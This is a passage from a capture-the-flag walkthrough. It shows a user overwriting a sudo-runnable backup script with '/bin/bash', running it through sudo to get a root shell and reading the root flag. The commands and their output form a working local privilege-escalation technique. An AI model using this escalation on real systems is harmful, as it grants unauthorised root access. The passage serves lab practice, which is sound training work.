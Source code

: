 And we don't so we try to add writing permissions :

```
alex@ubuntu:/etc/mp3backups$ ls -l
total 12
-rw-r--r-- 1 root root  339 Jul 13 12:23 backed_up_files.txt
-rwxrwxr-- 1 alex alex 1083 Dec 30  2020 backup.sh
-rw-r--r-- 1 root root   45 Jul 13 12:23 ubuntu-scheduled.tgz

```

Worked ! Now we can write it up and execute :

```
alex@ubuntu:/etc/mp3backups$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh 

root@ubuntu:/etc/mp3backups# cd ..
root@ubuntu:/etc# cd ..
root@ubuntu:/# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
root@ubuntu:/# cd root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

```

Pwned !

